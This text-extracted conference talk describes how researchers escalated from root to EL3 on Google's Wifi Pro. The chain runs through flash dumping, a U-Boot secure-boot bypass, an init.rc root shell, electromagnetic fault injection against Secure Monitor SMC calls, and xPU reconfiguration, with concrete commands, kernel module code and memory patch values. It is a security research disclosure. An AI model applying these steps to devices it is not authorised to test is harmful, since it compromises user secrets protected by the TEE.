









EL3vated Privileges
Glitching Google's Wifi Pro from Root to EL3.
Niek Timmers
( niek@raelize.com )
Introduction.
Lets open the device.
Dumping the eMMC flash.
Locate the flash
Locate the signals
Connect to SD card
Unfortunately, this did not work. 😞
Accessing the flash contents.
Flash detected by Linux driver
$ sudo dmesg
usb-storage 1-2:1.0: USB Mass Storage device detected
scsi 0:0:0:0: Direct-Access Generic- SD/MMC
Attached scsi generic sg0 type 0
Attached scsi generic sg1 type 0
[sda] 7634944 512-byte logical blocks: (3.91 GB/3.64 GiB)
[sda] Attached SCSI removable disk
sda: sda1 sda2 sda3 sda4 sda5 sda6 sda7 sda8 sda9 sda10
sda11 sda12 sda13 sda14 sda15 sda16 sda17 sda18 sda19
Dumping the entire flash
$ sudo dd if=/dev/sda of=flash.bin bs=512
Writing a particular partition
$ sudo dd if=qsee_b of=/dev/sda6 bs=512
Printing the GPT header
$ parted flash.bin
(parted) p
Partition Table: gpt
Number Start End Size File system Name
1 17,4kB 280kB 262kB sbl
2 280kB 4474kB 4194kB fts
3 4474kB 38,0MB 33,6MB ext4 factory
4 38,0MB 39,1MB 1049kB misc
5 39,1MB 39,7MB 655kB qsee_a
6 39,7MB 40,4MB 655kB qsee_b
7 40,4MB 40,5MB 131kB devcfg_a
8 40,5MB 40,6MB 131kB devcfg_b
9 40,6MB 40,8MB 131kB cdt_a
10 40,8MB 40,9MB 131kB cdt_b
11 40,9MB 43,0MB 2097kB uboot_a
12 43,0MB 45,1MB 2097kB uboot_b
13 45,1MB 112MB 67,1MB boot_a
14 112MB 179MB 67,1MB boot_b
15 179MB 767MB 587MB ext4 system_a
16 767MB 1354MB 587MB ext4 system_b
17 1354MB 1773MB 419MB ext4 cache
18 1773MB 2835MB 1062MB data
19 2835MB 3909MB 1074MB ext4 crash
What we achieved so far
We can communicate via the serial interface
We can re-program the eMMC flash in place
Let's get root.
U-Boot Environment.
- U-Boot uses an environment for various configuration options
- Usually stored somewhere in (external) flash
- In this case, in a partition that does not exist 🤯
- Note, U-Boot source code is available in GPL sources provided by Google
U-Boot searches for specific partitions
...
ret = get_partition_info_by_name(blk_dev, "0:APPSBLENV", &disk_info);
if (ret)
ret = get_partition_info_by_name(blk_dev,"ubootenv",&disk_info);
if (ret == 0) {
board_env_offset = disk_info.start * disk_info.blksz;
board_env_size = disk_info.size * disk_info.blksz;
board_env_range = board_env_size;
BUG_ON(board_env_size > CONFIG_ENV_SIZE_MAX);
}
...
Failed search is reflected on serial interface
U-Boot 2016.01-gc3449fb (Jan 24 2024 - 00:34:19 +0000)
...
SF: Unsupported flash IDs: manuf 00, jedec c03f, ext_jedec 7fff
ipq_spi: SPI Flash not found (bus/cs/speed/mode) = (0/0/48000000/0)
0 MiB
MMC: : 0 (eMMC)
*** Warning - bad CRC, using default environment
...
Hit any key to stop autoboot: 0
do_bootipq: boot signed image
...
Starting kernel ...
What if we add the missing partition? 🤔
Secure Boot Bypass.
Long story short: U-Boot will use our (malicious) env.
No verification when atf variable is set
...
if (ret == 0 && buf == 1 && !getenv("atf")) {
printf("%s: boot signed image\n", __func__);
ret = do_boot_signedimg(cmdtp, flag, argc, argv);
}
else if (ret == 0 || ret == -EOPNOTSUPP)
{
printf("%s: boot unsigned image\n", __func__);
ret = do_boot_unsignedimg(cmdtp, flag, argc, argv);
}
...
Confirmed on the serial interface
U-Boot 2016.01-gc3449fb (Jan 24 2024 - 00:34:19 +0000)
...
SF: Unsupported flash IDs: manuf 00, jedec 7fff, ext_jedec ff3f
ipq_spi: SPI Flash not found (bus/cs/speed/mode) = (0/0/48000000/0)
MMC: : 0 (eMMC)
In: serial@78AF000
Out: serial@78AF000
Err: serial@78AF000
...
Hit any key to stop autoboot: 0
do_bootipq: boot unsigned image
...
We can now load an unsigned Linux kernel image! 🥳
Bug also found by Sergei (CVE-2024-22013)
See his talk at Hardwear.io Netherlands 2024
Root shell
- U-Boot verifies the kernel as part of an Android boot image containing the following:
- Kernel arguments
- ramdisk
- Linux Kernel
- As we can bypass Secure Boot, we can modify its contents
- Modify kernel arguments to enable printing
- Modify init.rc in ramdisk to get root shell
Enable printing (modify
$ hexdump -C boot_b
...
0060: 00 00 00 00 00 00 00 00 69 6e 69 74 3d 2f 69 6e |........init=/in|
0070: 69 74 20 63 6c 6b 5f 69 67 6e 6f 72 65 5f 75 6e |it clk_ignore_un|
0080: 75 73 65 64 20 72 6e 67 5f 63 6f 72 65 2e 64 65 |used rng_core.de|
0090: 66 61 75 6c 74 5f 71 75 61 6c 69 74 79 3d 31 30 |fault_quality=10|
00a0: 30 20 67 70 74 20 72 61 65 6c 69 7a 65 3d 20 20 |0 gpt raelize= |
00b0: 72 6f 20 6d 6f 64 75 6c 65 5f 62 6c 61 63 6b 6c |ro module_blackl|
00c0: 69 73 74 3d 6f 76 65 72 6c 61 79 20 6c 6f 67 63 |ist=overlay logc|
00d0: 61 74 5f 62 75 66 66 65 72 5f 73 69 7a 65 73 3d |at_buffer_sizes=|
00e0: 31 30 32 34 2c 32 2c 32 2c 33 32 00 00 00 00 00 |1024,2,2,32.....|
...
Start root shell at the end of
on init
...
on boot
...
exec /system/bin/ash
Root shell on the serial interface after we boot
# whoami
root
# getprop ro.build.description
sirocco-user 3.73 OPENMASTER 406133 release-keys
What we achieved so far
We can communicate via the serial interface
We can re-program the eMMC flash in place
We bypassed Secure Boot with a bug in U-Boot
- We enabled printing on the serial interface
- We start a root shell on the serial interface
Let's go deeper! 😏
Trusted Execution Enviornment (TEE)
- Google's Wifi Pro uses Qualcomm's TEE (i.e., QSEE) to protect user data
- Implemeted using ARM TrustZone
- Separate subsystem separated from Linux
- As any ARM64-based TEE, it's composed of:
- Secure Monitor (EL3)
- Secure OS (S-EL1)
- Trusted Applications (S-EL0)
- When Linux is compromised, it should not affect the secrets protected by QSEE
Our goal is to escalate privileges from root to EL3! 😎
Typical approach: SW vulnerabilities
- Find and exploit software vulnerabilities in:
- Secure Monitor to get EL3
- Secure OS to get S-EL1
- Trusted Application to get S-EL0
- We can interrace with them all from a modified Kernel (i.e., using smc instructions)
We found bugs, but we cannot talk about it yet... 😤
🌟 Another idea 🌟
- Glitch (⚡) the Secure Monitor to get a R/W primitive
- Use R/W primitive to configure the secure memory
- Use root shell to rewrite Secure Monitor code
- Execute modified Secure Monitor code 💸 💸 💸
Will this work? Let's find out!
What do we need? 😨
- Ability to glitch Qualcomm's IPQ5018 SoC
- Requires a fault injection setup
- Ability to issue arbitrary smc instructions
- Requires kernel code execution
- Ability to fault the right code construction
- Requires reversing and experimentation
- Understanding of how secure memory is configured
- Requires reversing
Fault Injection Setup
- Communication
- Serial interface
- Trigger
- Factory reset button (GPIO)
- Reset
- Relay to switch PSU
- Tooling from Keysight
- Spider
- XYZ Table
- EMFI Probe



Fault Injection Setup Diagram

Fault Injection Setup Actual

Let's start glitching... 🔫
Characterization
- Determine if the target is vulnerable
- Identify effective glitch parameters
- Glitch power
- Glitch location
- Preferably the first step before performing an attack
Characterization: Code
- Implemented in a kernel module
- Unrolled loop using
add instructions - Trigger before and after instructions
MODULE_DESCRIPTION(
"CHARACTERIZATION 1 for Google's Nest Wi-Fi Pro"
);
#define o "add r7, r7, #1;"
#define t o o o o o o o o o o
#define h t t t t t t t t t t
#define d h h h h h h h h h h
#define x d d d d d d d d d d
static int unrolled_loop(volatile u32 *trigger) {
volatile u32 count = 0;
*trigger = 0x3;
asm volatile(
"mov r7, #0;"
x
"mov %[count], r7;"
: [count] "=r" (count) : : "r7", "r12"
);
*trigger = 0x0;
printk(KERN_ALERT "AAAA%08xBBBB%08xCCCC\n", count, count);
return 0;
}
Characterization: Execution
# insmod characterize_1.ko _command=1 _iterations=10000
[ 1054.149388] characterize_1 (init)!
[ 1054.149491] AAAA00002710BBBB00002710CCCC
[ 1054.176611] characterize_1 (exit)!
We execute 0x2710 (10,000) add instructions.
Characterization: Results

Characterization: Responses
AAAA 00002710 BBBB 00002710 CCCC : expected (i.e., glitch has no impact)
AAAA 0000270f BBBB 0000270f CCCC : counter - 1
AAAA 00002790 BBBB 00002790 CCCC : counter + 0x80
AAAA 000027c0 BBBB 000027c0 CCCC : counter + 0xb0
AAAA 4000198e BBBB 4000198e CCCC : DDR address
AAAA 6fb91dac BBBB 6fb91dac CCCC : no idea
Above results indicate we may successfully alter instructions! 🤗
What we achieved so far
We can communicate via the serial interface
We can re-program the eMMC flash in place
We bypassed Secure Boot with a bug in U-Boot
- We enabled printing on the serial interface
- We start a root shell on the serial interface
We can corrupt instructions that are executed
Our journey to EL3 code execution... 🛫
Fixing the probe

Probe is fixed where we observed
Executing SMC instructions
- Requires kernel code execution
- We made a loadable kernel module (LKM)
static int send_smc(u32 r0, u32 r1, u32 r2, ...) {
...
asm volatile(
...
".arch_extension sec\n"
"smc #0 @ switch to secure world\n"
...
);
...
}
- We use this LKM to issue SMCs with any arguments
What we achieved so far
We can communicate via the serial interface
We can re-program the eMMC flash in place
We bypassed Secure Boot with a bug in U-Boot
- We enabled printing on the serial interface
- We start a root shell on the serial interface
We can corrupt instructions that are executed
We can issue any smc with any arguments
Secure Monitor: Interesting commands
- REE uses SMCs to access (secure) registers
- io_access_read (
0x2000501 ) - used for reading registers
- io_access_write (
0x2000502 ) - used for writing registers
// io_access_read
if (smcid == 0x2000501 )
{
v23 = el3_smc_read_from(smc_regs->x2);
smc_regs->x0 = 0LL;
smc_regs->x1 = v23;
goto LABEL_62;
}
// io_access_write
if (smcid == 0x2000502 )
{
el3_smc_write_to(smc_regs->x2, smc_regs->x3);
smc_regs->x0 = 0LL;
smc_regs->x1 = 0LL;
goto LABEL_62;
}
Arguments should be sanitized! 🧼
Secure Monitor: Restrictions
- A
white list with allowed addresses is used - Operation
discarded when address is not on the whitelist
u32 el3_smc_read_from(uint32_t *address) {
if ( is_allowed_address(address) == 1 ) {
return *address;
} else {
return 0;
}
}
u32 is_allowed_address(uint32_t *address) {
index = 0;
for ( &allowed_addresses; ++allowed_addresses ) {
if ( ++index > 7 )
return 0;
if (*allowed_addresses == address)
break;
}
}
return 1;
}
LOAD:4AC084D0 allowed_addresses DCD 0x193D100
LOAD:4AC084D4 DCD 0xB1880B0
LOAD:4AC084D8 DCD 0xB1880B8
LOAD:4AC084DC DCD 0xB1980B0
LOAD:4AC084E0 DCD 0xB1980B8
LOAD:4AC084E4 DCD 0x193D010
LOAD:4AC084E8 DCD 0x193D204
LOAD:4AC084EC DCD 0x193D224
Secure Monitor Attack: Steps
- ⮝ Set trigger high
- Issue
smc to read/write address (⚡) - ⮟ Set trigger low
- When successful
- Read from an any address
- Write any value to any address
// Glitched version of io_access_read
u32 el3_smc_read_from(u32 *address) {
value = *address;
return value;
}
// Glitched version of io_access_write
u32 el3_smc_write_to(u32 *address, u32 value) {
*address = value;
return 0LL;
}
Secure Monitor Attack: Timing

The ⚡ is injected in a 5 µs window with ~350 ns jitter!
Secure Monitor Attack: Reading

- Success rate ~0.1% (or 1 success every 30 minutes)
- But, successful glitches are in specific areas
What about writing (i.e.,
Secure Monitor Attack: Writing

- Success rate ~0.3% (or 1 success every 10 minutes)
- Reused knowledge from the previous experiment
What we achieved so far
We can communicate via the serial interface
We can re-program the eMMC flash in place
We bypassed Secure Boot with a bug in U-Boot
- We enabled printing on the serial interface
- We start a root shell on the serial interface
We can corrupt instructions that are executed
We can issue any smc with any arguments
From within the context of the Secure Monitor (EL3)
- We can R from any address using a glitch
- We can W to any address using a glitch
Let's get code execution (at EL3) 🥶
Qualcomm's Memory Protection: xPU
- Qualcomm uses proprietrary hardware to protect the access to memory and peripherals
- Can be (re-)conifgured during boot & runtime
- Each xPU has its own dedicated registers
- Use case:
- Block Linux from accessing secure memory
- Block Linux from accessing secure peripherals
- ...
Dumping the DDR xPU config
Dumping the config to a log file
/ # devmem 0x4ac00000
[ 226.334018] WARN: Access Violation!!!
[ 226.334018] Run "cat /sys/kernel/debug/qti_debug_logs/tz_log" for more details
Bus error (core dumped)
/ #
Dumping the config to a log file
/ # tail /sys/kernel/debug/qti_debug_logs/tz_log -n 36
[1c0032308c]XPU ERROR: Non Sec!!
[1c0032412a]xpu:>>> [4] XPU error dump, XPU id 4 (DDR0_MPU)<<<
[1c003290cb] xpu: uPhysicalAddress: 4ac00000
xpu: uAMemType: 00000000
xpu: Prt: 0: Start: 0x40000000, End: 0x4ac00000, Perm0: 0xffffffff, Perm1: 0xffff, Cfg: 0x1
xpu: Prt: 1: Start: 0x4ac00000, End: 0x4ad11000, Perm0: 0x0, Perm1: 0x0, Cfg: 0x0
xpu: Prt: 2: Start: 0x4ad11000, End: 0x4ad12000, Perm0: 0xc0, Perm1: 0x0, Cfg: 0x0
xpu: Prt: 3: Start: 0x4ad12000, End: 0x4ad14000, Perm0: 0x0, Perm1: 0x0, Cfg: 0x0
xpu: Prt: 4: Start: 0x4ad14000, End: 0x4ad15000, Perm0: 0x55555555, Perm1: 0x5555, Cfg: 0x0
xpu: Prt: 5: Start: 0x4ad15000, End: 0x4ad16000, Perm0: 0x0, Perm1: 0x0, Cfg: 0x0
xpu: Prt: 6: Start: 0x4ad16000, End: 0x4ad8b000, Perm0: 0xc0, Perm1: 0x0, Cfg: 0x1
xpu: Prt: 7: Start: 0x4ad8b000, End: 0x7ffff000, Perm0: 0xffffffff, Perm1: 0xffff, Cfg: 0x1
...
/ #
Secure Memory (EL3/S-EL1) is present in
XPU configuration register
- Address found by reversing the qsee binary
- Contains a table with all available xPU registers
- Address for
DDR0_MPU is0x6e000 - After a bit of peeking we figured out that
- Start for
Prt 1 is @0x6e000 + 0x200 + 0x2c0 - End for
Prt 1 is @0x6e000 + 0x200 + 0x2c8
What if we write to
XPU attack: Steps
- ⮝ Set trigger high
- Issue
smc to write0x4ac09000 toStart ofPrt 1 (⚡) - ⮟ Set trigger low
- Read from
0x4ac00000 usingdevmem
On fail we get:
/ # devmem 0x4ac00000
[ 226.321780] Unhandled fault
[ 226.334018] WARN: Access Violation!!!
Bus error (core dumped)
On success we got:
/ # devmem 0x4ac00000
0xD29FFFE1
We can access
What we achieved so far
We can communicate via the serial interface
We can re-program the eMMC flash in place
We bypassed Secure Boot with a bug in U-Boot
- We enabled printing on the serial interface
- We start a root shell on the serial interface
We can corrupt instructions that are executed
We can issue any smc with any arguments
From within the context of the Secure Monitor (EL3)
- We can R from any address using a glitch
- We can W to any address using a glitch
We can RW Secure Memory from Linux (NS-EL0)
Code Exection (EL3)
- From our root shell we can:
- Read Secure Memory
- Write Secure memory
- We can also patch EL3 code directly
- E.g., patch
is_allowed_address until reset (🙈)
u32 is_allowed_address(uint32_t *address) {
index = 0;
for ( &allowed_addresses; ++allowed_addresses ) {
if ( ++index > 7 )
return 0;
if (*allowed_addresses == address)
break;
}
}
return 1;
}
/ # devmem 0x4ac031f0 32 0x320003e0
u32 is_allowed_address(uint32_t *address) {
index = 0;
for ( &allowed_addresses; ++allowed_addresses ) {
if ( ++index > 7 )
return 1;
if (*allowed_addresses == address)
break;
}
}
return 1;
}
What finally achieved 🧗
We can communicate via the serial interface
We can re-program the eMMC flash in place
We bypassed Secure Boot with a bug in U-Boot
- We enabled printing on the serial interface
- We start a root shell on the serial interface
We can corrupt instructions that are executed
We can issue any smc with any arguments
From within the context of the Secure Monitor (EL3)
- We can R from any address using a glitch
- We can W to any address using a glitch
We can RW Secure Memory from Linux (NS-EL0)
We can patch EL3 code directly from Linux (NS-EL0)
Hence, we can execute arbitrary code! 👑
Video Demonstration 🎬
Takeaways
- FI attacks are
- very powerful when combined with other attacks
- effective against secure subsystems like TEEs
- Modern TEEs rely (often) on single point of failures
- i.e., a single write leads to a full compromise
- Many 'secure' devices are not hardened against glitches
Conclusion
- Google's Wifi Pro is vulnerable to FI attacks
- Qualcomm's IPQ5018 SoC is vulnerable to FI attacks
- Qualcomm's QSEE is not hardened against FI attacks
- Escalating from root to EL3 with a glitch (⚡) may not that difficult
Thank you! Any questions!?
Niek Timmers
( niek@raelize.com )